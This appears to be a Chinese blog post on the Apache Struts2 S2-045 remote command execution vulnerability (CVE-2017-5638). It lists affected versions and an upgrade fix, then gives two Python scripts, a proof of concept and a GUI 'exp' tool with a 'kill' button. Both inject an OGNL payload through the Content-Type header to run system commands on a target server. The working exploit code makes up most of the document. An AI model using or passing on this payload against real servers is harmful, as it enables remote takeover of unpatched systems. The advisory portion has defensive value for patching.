 ```yaml
---
title: struts2远程命令执行漏洞S2-045
date: 2020-02-15 09:50:08
tags: 
    - 漏洞利用
author: gumeng
categories: Exploit
---
```





# struts2远程命令执行漏洞S2-045

Apache Struts 2被曝存在远程命令执行漏洞，漏洞编号S2-045，CVE编号CVE-2017-5638，在使用基于Jakarta插件的文件上传功能时，有可能存在远程命令执行，导致系统被黑客入侵，漏洞评级为：高危。

漏洞详情：恶意用户可在上传文件时通过修改HTTP请求头中的Content-Type值来触发该漏洞，进而执行系统命令。

风险等级：高风险。

漏洞风险：黑客通过利用漏洞可以实现远程命令执行。

影响版本：Struts 2.3.5 - Struts 2.3.31, Struts 2.5 - Struts 2.5.10。

安全版本：Struts 2.3.32或2.5.10.1。

poc，如下：

    #! /usr/bin/env python
    # encoding:utf-8
    import urllib2
    import sys
    from poster.encode import multipart_encode
    from poster.streaminghttp import register_openers
    
    
    
    def poc():
    register_openers()
    datagen, header = multipart_encode({"image1": open("tmp.txt", "rb")})
    header["User-Agent"]="Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.87 Safari/537.36"
    header["Content-Type"]="%{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='ifconfig').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}"
    request = urllib2.Request(str(sys.argv[1]),datagen,headers=header)
    response = urllib2.urlopen(request)
    print response.read()
    
    poc()

exp，如下：
    
    #coding:utf-8
    import urllib2
    from Tkinter import *
    import sys
    from poster.encode import multipart_encode
    from poster.streaminghttp import register_openers
    
    
    
    class START():
    
    def __init__(self,root):
    self.root=root
    self.show_W_Text = Text()
    self.show_url_ed = Label(root, text="str2")
    self.edit_url = Entry(root, text="输入地址")
    self.butt_whois = Button(root, text="kill",command=self.poc)
    self.show_url_ed.pack()
    self.edit_url.pack()
    self.butt_whois.pack()
    self.show_W_Text.pack()
    
    def poc(self):
    w_url = self.edit_url.get()
    text = self.show_W_Text
    register_openers()
    datagen, header = multipart_encode({"image1": open("tmp.txt", "rb")})
    header[
    "User-Agent"] = "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.87 Safari/537.36"
    header[
    "Content-Type"] = "%{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='ifconfig').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}"
    request = urllib2.Request(w_url, datagen, headers=header)
    response = urllib2.urlopen(request).read()
    text.insert(1.0, response)
    
    
    if __name__ == '__main__':
    
    root=Tk()
    root.title("....")
    motion=START(root)
    mainloop()

修复建议：如您正在使用Jakarta文件上传插件，请升级Struts至安全版本。